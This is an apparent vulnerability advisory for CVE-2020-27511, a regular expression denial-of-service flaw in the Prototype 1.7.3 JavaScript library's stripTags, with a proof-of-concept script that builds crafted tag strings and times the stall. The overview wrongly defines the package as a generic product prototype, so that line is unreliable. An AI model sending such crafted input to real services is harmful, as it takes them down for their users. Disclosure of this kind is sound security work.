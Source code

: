 # CVE-2020-27511
## Package

prototype

## Overview

A **prototype** is an early sample, model, or release of a product built to test a concept or process.

Regular Expression Denial of Service (ReDOS) in Prototype 1.7.3 

It allows cause a denial of service when stripping crafted tags.

## Proof of Concept



```javascript
var prototype = require("prototype/lib/String")
function build_attack(n) {
	var ret = "hello <span> <a "
	for (var i = 0; i < n; i++) {
		ret += "'"
	}

	return ret+"!";
}

for(var i = 1; i <= 50000; i++) {
    var time = Date.now();
    var attack_str = build_attack(i)
    attack_str.stripTags()
    var time_cost = Date.now() - time;
    console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
}
```



